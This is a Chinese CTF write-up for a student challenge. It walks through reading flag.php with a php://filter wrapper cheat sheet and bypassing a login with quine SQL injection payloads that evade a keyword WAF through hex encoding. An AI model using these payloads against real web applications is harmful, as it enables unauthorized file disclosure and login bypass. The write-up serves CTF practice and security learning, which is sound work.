



## 基本信息

- 题目名称： [NUSTCTF 2022 新生赛]Translate
- 题目链接： https://www.nssctf.cn/problem/3151
- 考点清单： quine注入, unique注入, SQL注入, WAF绕过, PHP伪协议读取文件, 源码审计, php://filter, 简单模糊测试
- 工具清单： Yakit, sqlmap, mysql, adminer
- payloads： PHP伪协议读取cheatsheet, quine

## 一、看到什么

### 第一轮

**题目关键信息列表**：

1. `登录表单`: 最基本的登录表单，包括用户名和密码输入框。

### 二、想到什么解题思路

1. 页面源码审计：查看页面源码，寻找注释、隐藏字段、js代码等信息。

### 三、尝试过程和结果记录

1. `Yakit` 的 `MITM 交互式劫持` 的 `MITM` 历史记录里，直接看到 `HTML 注释` 标记的请求记录，直接点击查看响应内容发现。发现 `/dGVzdC5waHA=` ，经过 `base64` 解码后是 `/test.php` 。
2. 访问 `/test.php` 。

```php
<?php
include_once("fun.php");
//我的室友板鸭把flag藏到flag.php里了
highlight_file(__FILE__);
error_reporting(0);

$file = $_GET['file'];
if (!is_file($file)) { 
    highlight_file(filter($file));
} else {
    echo "我室友说了，会有大坏蛋来敲门!";
} 
```

根据上面的代码审计可知：这里的 is_file() 会过滤掉真实存在的文件输入，命题人在引导我们正常读取文件的方式行不通，我们需要通过其他方式读取文件。结合当前已知信息，`PHP 伪协议读取文件` 值得尝试。

3. 目标是访问 `/test.php?file=flag.php` ，但是需要换一种方式来编码 `flag.php` 作为请求参数。以下是一些可能的写法和测试结果：

```bash
php://filter/read=convert.base64-encode/resource=flag.php
# 输出：让我康康是谁!

# 怀疑过滤了 base64-encode 关键词，直接尝试
base64-encode
# 输出：让我康康是谁!
php://filter/convert.base64-decode/resource=flag.php
php://filter/read=string.rot13/resource=flag.php
# 输出：让我康康是谁!
```

手动太慢，改成 Yakit web fuzzer 方式，如下图所示。



有 3 个负载成功读取到了 flag.php 的内容：

```html
<?php
// index.php
// ...
checkSql($password);
// ...
// Only filtered a little
// ...
if ($row['password'] === $password) { // 熟悉的 quine 注入又来了
    alertMes($FLAG, 'index.php');
} else {
    alertMes("wrong password", 'index.php');
}
// ...
?>
```

直接使用 [hdctf2023-loginmaster](hdctf2023-loginmaster.md) 中的 `payload` 试试。页面弹窗提示： `呜呜呜呜呜呜呜呜呜呜！！大黑客来了！大家快跑！！` ，看来是 `payload` 中有关键词被 `cheatsheet()` 过滤了。

直接把上述 `payload` 中的 `char()` 函数替换成 `chr()` 函数，不报错，但也没效果。

> Y'union/**/select/**/replace(REPLACE('Y"union/**/select/**/replace(REPLACE(".",chr(34),chr(39)),chr(46),".")#',chr(34),chr(39)),chr(46),'Y"union/**/select/**/replace(REPLACE(".",chr(34),chr(39)),chr(46),".")#')#

继续尝试将 `chr()` 函数对应的字符替换成 `0x` 写法。

> Y'union/**/select/**/replace(REPLACE('Y"union/**/select/**/replace(REPLACE(".",0x22,0x27),0x2e,".")#',0x22,0x27),0x2e,'Y"union/**/select/**/replace(REPLACE(".",0x22,0x27),0x2e,".")#')#

再次尝试，成功拿到 Flag 。

## 四、总结与反思

- 日常刷题时要注重积累可以自动化完成特定操作步骤的方法，比如善用 `Yakit` 的 `规则配置` 功能，可以快速对 **可疑** 请求和响应进行高亮标注、Tag 标注等。
- 用过的 cheatsheet 都可以持久化存入 `payload` ，并持续维护。

## 五、本地工具环境配置

1. 定制 `Yakit` 帮我们自动找到 HTML 代码中包含的 HTML 注释代码，方便我们快速定位到需要审计的代码。





2. php://filter

```bash
php://filter/convert.base64-encode/resource=flag.php
php://filter/convert.base64-decode/resource=flag.php
php://filter/read=string.rot13/resource=flag.php
php://filter/zlib.deflate/resource=flag.php
php://filter/zlib.inflate/resource=flag.php
php://filter/convert.quoted-printable-encode/resource=flag.php
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
php://filter/convert.iconv.UCS-4LE.UCS-4BE/resource=flag.php
php://filter/convert.iconv.UTF-7.UCS-4BE/resource=flag.php
```

对于 `php://filter/read=string.strip_tags/resource=php://input` ，注意到 `php://input` 是读取请求体的内容，所以需要配合 `POST` 请求使用。直接在 `POST` 请求体中写 `flag.php` ，然后 `file=php://filter/read=string.strip_tags/resource=php://input` 就可以从 `POST` 请求体中读取到 `flag.php` 。

上面的 `iconv` 支持的编码格式可以通过 `iconv --list` 查看，非常多，这里只列了一小部分。

3. SQL 绕过 WAF 等价写法

```sql
select chr(39);
-- 查询出错 (1305): FUNCTION chr does not exist

select hex(ascii(char(46)));
-- 2e

select hex(ascii(char(34)));
-- 22

select hex(ascii(char(39)));
-- 27
```


